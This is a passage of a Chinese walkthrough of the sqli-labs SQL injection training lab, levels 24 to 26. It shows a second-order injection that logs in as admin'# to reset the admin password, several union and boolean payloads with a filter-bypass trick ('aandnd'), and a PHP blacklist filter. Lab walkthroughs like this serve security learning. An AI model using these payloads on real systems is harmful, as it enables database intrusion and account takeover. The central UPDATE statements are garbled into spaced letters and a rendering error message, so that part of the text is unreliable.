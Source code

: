 2.以用户【admin’#】登录成功

3、修改密码，

UPDATE users SET PASSWORD=‘ p a s s ′ w h e r e u s e r n a m e = ′ pass' where username=' pass′whereusername\=′username’ and password=’$curr\_pass’

此时更新密码的sql语句就变为

UPDATE users SET PASSWORD=‘KaTeX parse error: Expected 'EOF', got '#' at position 29: …sername='admin'#̲' and password=…curr\_pass’

此时实际上我们会将【admin】用户的密码修改

注入语句：admin’ --+这样就可以通过注释掉后面的语句，从而使只要是username为admin的用户就会把password设置为我们输入的密码。

## Less-25a

    区别 闭合方式不同，没有报错信息输出
    
    请求方式 get
    
    闭合方式 数字型
    
    攻击测试
    
    ?id=-1 union select 1,2,3--+
    
    ?id=1 aandnd 1=2--+
    
    注入方式 联合，布尔，延时
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201217205317405.png)

## less-26

过滤规则：

    function blacklist($id)
    {
     
    $id= preg_replace('/or/i',"", $id);                        //strip out OR (non case sensitive)
     
    $id= preg_replace('/and/i',"", $id);                //Strip out AND (non case sensitive)
     
    $id= preg_replace('/[\/\*]/',"", $id);                //strip out /*
     
    $id= preg_replace('/[--]/',"", $id);                //Strip out --
     
    $id= preg_replace('/[#]/',"", $id);                        //Strip out #
     
    $id= preg_replace('/[\s]/',"", $id);                //Strip out spaces
     
    $id= preg_replace('/[\/\\\\]/',"", $id);                //Strip out 斜线
     
    return $id;
     
    }
    
        